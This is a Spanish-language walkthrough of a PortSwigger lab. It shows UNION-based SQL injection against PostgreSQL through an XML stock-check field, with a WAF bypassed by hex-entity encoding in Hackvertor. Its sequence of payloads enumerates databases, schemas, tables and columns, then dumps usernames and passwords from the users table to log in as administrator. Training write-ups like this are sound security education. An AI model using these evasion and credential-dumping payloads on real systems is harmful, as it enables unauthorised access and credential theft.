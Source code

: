 ```yaml
---
title: "SQL injection with filter bypass via XML encoding"
date: 2025-02-12 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection with filter bypass via XML encoding
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en su función de `verificación` de `stock`. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que se puede usar un `ataque UNION` para obtener `datos` de otras `tablas`. La `base` de `datos` contiene una `tabla` llamada `users`, que almacena los `nombres` de `usuario` y `contraseñas` de los `usuarios registrados`. Para resolver el laboratorio, debemos realizar un `ataque` de `inyección SQL` para `obtener` las `credenciales` del usuario `administrador` y luego `iniciar sesión` en su cuenta

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-18/image_1.png)

Si hacemos click en `View details` vemos que hay un botón de `Check stock`

![](/assets/img/SQLI-Lab-18/image_2.png)

Si pinchamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos una estructura en `XML`

![](/assets/img/SQLI-Lab-18/image_3.png)

Si `enviamos` la `petición` recibiremos en `número` de `unidades` disponibles

![](/assets/img/SQLI-Lab-18/image_4.png)

Con el simple hecho de poner una `'` en alguna de los campos ya nos lo `detecta` como `ataque`, esto es debido a un `WAF`

![](/assets/img/SQLI-Lab-18/image_5.png)

Si el `formato no fuera XML` y fuera `texto plano` podríamos usar el `Decoder` para `encodear` el `payload` en `hexadecimal`, sin embargo, en este caso al `enviarse los datos` en una `estructura XML` podemos usar `herramientas` como `Hackvertor` para `ofuscar` nuestro `payload` y `evitar` que sea `detectado` por el `WAF`. Para encodear nuestro payload debemos pulsar `click derecho > Extensions > Hackvertor > Encode > hex_entities`

![](/assets/img/SQLI-Lab-18/image_6.png)

Vemos que si ponemos una `'` nos devuelve `0 unidades`

![](/assets/img/SQLI-Lab-18/image_7.png)

He probado ambos campos pero solamente es `inyectable` el campo `storeId`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select null<@/hex_entities>
    </storeId>
</stockCheck>
```

Si `enviamos` la `petición` vemos `null` en la `respuesta`

![](/assets/img/SQLI-Lab-18/image_8.png)

`Listamos` la `version` y la `base` de `datos`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select version()<@/hex_entities>
    </storeId>
</stockCheck>
```

Vemos que estamos ante un `PostgreSQL`

![](/assets/img/SQLI-Lab-18/image_9.png)

`Listamos` los `nombres` de las `bases` de `datos`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select datname from pg_database<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_10.png)

`Listamos` la `base de datos actual`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select current_database()<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_11.png)

`Listamos` los `esquemas` para la `base de datos en uso`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(schema_name,', ') from information_schema.schemata<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_12.png)

Listamos `tablas` de la `base de datos public`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(table_name,', ') from information_schema.tables where table_schema='public'<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_13.png)

Listamos `columnas` de la `tabla users`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select string_agg(column_name,', ') from information_schema.columns where table_name='users'<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_14.png)

`Listamos` los `usuarios` y `contraseñas` de la tabla `users`

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>
        <@hex_entities>1 union select username || ' : ' || password from users<@/hex_entities>
    </storeId>
</stockCheck>
```

![](/assets/img/SQLI-Lab-18/image_15.png)

``Accedemos`` al `panel administrativo`

![](/assets/img/SQLI-Lab-18/image_16.png)
